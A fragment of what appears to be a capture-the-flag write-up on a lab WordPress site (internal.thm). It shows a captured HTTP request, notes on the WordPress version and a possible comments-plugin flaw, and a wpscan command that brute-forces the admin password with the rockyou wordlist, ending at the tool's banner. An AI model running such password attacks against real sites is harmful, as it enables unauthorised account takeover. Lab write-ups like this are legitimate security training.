 it lead me to 

http://internal.thm/blog/index.php/2020/08/03/hello-world/

This above page has the same wordpress_test_cookie 

GET /blog/index.php/2020/08/03/hello-world/ HTTP/1.1
Host: internal.thm
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: close

May be the comments plugins uses these kind of user cookies to Authenticate User------------Intresting...

Let's check for plugins details and how can we crack it to get an duplicate access..


'''

Let's Check the exploit now it was also related to comments plugin

'''
I cannot possibly make any user account so this vuln is really getting out my context. But we will try if we get any further clue

Version Of WordPress
http://internal.thm/blog/wp-includes/js/wp-embed.min.js?ver=5.4.2



'''
Manually i guess things are little difficult but we still got a tool wpscan

'''

wpscan --url http://$ip/blog --usernames admin --passwords ~/payloadList/rockyou.txt --max-threads 10
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.12
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
